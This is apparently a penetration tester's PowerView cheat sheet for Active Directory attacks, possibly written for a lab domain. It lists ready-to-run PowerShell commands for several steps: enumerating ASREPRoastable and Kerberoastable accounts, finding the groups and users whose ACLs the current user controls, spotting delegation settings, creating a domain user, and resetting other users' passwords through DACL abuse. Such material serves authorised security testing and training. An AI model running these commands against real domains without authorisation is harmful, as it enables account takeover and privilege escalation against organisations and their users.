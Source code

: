 # powerview

% ad, windows, powerview
#plateform/windows #target/remote  #cat/RECON 

## user - new domain user
```
new-domainuser -SamAccountName jubeaz -AccountPassword $SecPassword -Domain client.offshore.com
```

## User - Get ASREPRoastable users
```powershell
Get-NetUser -PreauthNotRequired
```


## User - Get Kerberoastable users
```powershell
Get-NetUser -SPN
```

## User - Find all groups our current user got access
```powershell
Get-DomainGroup | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

## User - Find all users our current user got access
```powershell
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```


## User - Find user accounts that have kerberos constrained delegation 
```powershell
Get-NetUser -TrustedToAuth | select userprincipalname, name, msds-allowedtodelegateto
```


## User - Find user accounts that have kerberos unconstrained delegation 
```powershell
Get-DomainUser -LDAPFilter "(userAccountControl:1.2.840.113556.1.4.803:=524288)"
```


## User - reset password (alternate cred)
#cat/ATTACK/DACL-ABUSE 
```
$SecPassword = ConvertTo-SecureString '<password>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<domain_netbios>\<user>', $SecPassword)
Set-DomainUserPassword -Identity <target_user> -AccountPassword (ConvertTo-SecureString '<new_password|Jubeaz12345+->' -AsPlainText -Force) -Credential $Cred -Domain <dst_domain_fqdn>
```

## User - reset password
#cat/ATTACK/DACL-ABUSE 
```
Set-DomainUserPassword -Identity <target_user> -AccountPassword (ConvertTo-SecureString '<new_password|Jubeaz12345+->' -AsPlainText -Force) -Domain <dst_domain_fqdn>
```
